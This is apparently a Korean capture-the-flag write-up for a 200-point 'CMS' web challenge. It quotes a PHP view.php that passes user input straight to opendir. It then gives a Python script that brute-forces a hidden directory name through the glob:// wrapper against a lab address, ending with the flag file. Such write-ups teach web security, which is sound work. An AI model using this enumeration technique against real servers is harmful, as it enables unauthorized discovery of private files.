




# League Of Hackers (ARGOS): CMS(200)

문제 소스는 `robots.txt`에 가면 구할 수 있다.


`view.php`를 보게되면 `opendir`하는 것을 볼 수 있다.

```php
<?php
$dir = $_GET['n'];
$dh = opendir($dir);
$txt = array();
while($file=readdir($dh)) {
	echo "Searching...<br>";
	if(substr($file,-3)=="txt") {
		$txt[] = $file;
	}
}
@closedir($dh);
echo "<br><b>[TXT list]</b><br>";
foreach($txt as $data) {
	echo $data."<br>";
}
?>
```

`opendir`은 `glob`를 사용할 수 있다. 이걸 이용해서 와일드 마스크를 적용하며 `flag`파일을 찾으면 된다.




```python
import requests

table = '_0123456789abcdefghijklmnopqrstuvwxyz'
result = 'h'
while True:
    for ch in table:
        r = requests.get('http://192.168.101.202:62804/view.php?n=glob://{}*'.format(result + ch))

        if r.text.find('Searching...') != -1:
            result += ch
            print result
            break
    else:
        break
```

위 코드로 `h1dd3nforf14gm4n`를 찾을 수 있었다.



`flag.txt`를 찾았다.


